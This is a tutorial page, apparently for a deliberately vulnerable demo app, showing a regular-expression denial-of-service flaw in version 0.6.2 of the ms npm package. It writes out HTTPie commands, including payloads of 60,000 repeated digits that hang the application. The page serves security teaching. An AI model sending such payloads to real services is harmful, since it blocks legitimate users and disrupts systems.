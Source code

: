 # Example 3

Our third example vulnerability is with the [`ms`](https://www.npmjs.com/package/ms) [npm](https://www.npmjs.com/) package. This is a module that allows easy conversion of various time formats into milliseconds. The issue here is that we are using `ms@0.6.2` and this has a [Regular Expression Denial of Service \(ReDos\)](https://snyk.io/test/npm/ms/0.6.2) vulnerability.

![](../../../../../.gitbook/assets/vuln_ms.png)

What this package allows us to do is to take a string input and parse into milliseconds which our application will then use to send a reminder. For example:

![](http://g.recordit.co/tgye3UMxmo.gif)

To demonstrate this vulnerability, we will move to the terminal. Let's run the following command against our application:

```text
echo 'content=Reboot server in 20 minutes' | http --form $GOOF_HOST/create -v
```

 The result will be console output similar to this:

```text
POST /create HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: elb.amazonaws.com
User-Agent: HTTPie/2.1.0

content=Reboot server in 20 minutes

HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 28
Content-Type: text/html; charset=utf-8
Date: Sat, 13 Jun 2020 21:20:16 GMT
ETag: W/"1c-41a86905"
Location: /
Vary: X-HTTP-Method-Override
X-Powered-By: Express

UmVib290IHNlcnZlciBbMjBtXQ==
```

A corresponding web result will look like this:

![](../../../../../.gitbook/assets/goof_ms_01.png)

Now we will take the previous command but print the digit 5 a total of 60,000 times. This regular expression will take a non-linear amount of time to process an input. The longer the input, the longer the processing time. Let's run the following command

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutes' | http --form $GOOF_HOST/create -v
```

The result here was surprisingly fast. However, what happens when the regular expression does not match? To illustrate this, let's take the same command and swap the _**s**_ in _**minutes**_ for an _**a**_ instead. Type the following command:

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutea' | http --form $GOOF_HOST/create -v
```

This command will take a while to process and result in a non-responsive application. If you try to add or remove tasks the application will not respond and you have blocked legitimate requests from processing.

